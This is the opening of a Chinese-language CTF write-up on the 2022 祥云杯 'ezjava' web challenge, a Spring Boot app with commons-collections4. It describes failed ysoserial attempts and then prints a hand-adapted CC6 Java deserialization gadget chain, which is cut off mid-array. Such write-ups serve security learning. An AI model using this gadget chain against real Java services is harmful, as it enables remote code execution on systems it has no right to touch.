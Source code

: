 ```yaml
---
title: "2022 祥云杯 Web Writeup"
date: 2022-10-31T09:30:29+08:00
lastmod: 2022-10-31T09:30:29+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


看了两天的 `Token is invalid !!`...



## ezjava

springboot 网站

controller

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302033773.png)

util (最后好像没用到)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302034773.png)

lib

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302034341.png)

一眼看到 commons-collection4-4.0, 于是直接用 ysoserial 打

试了下 cc2 cc4 发现一直失败, 报错提示没有 TemplatesImpl 类 (?)

又换成了 cc6, 自己手动改了下 payload (4.0 版本中 LazyMap 的 decorate 方法变成了 lazyMap)

```java
package com.example;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class CommonCollections6Demo {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
```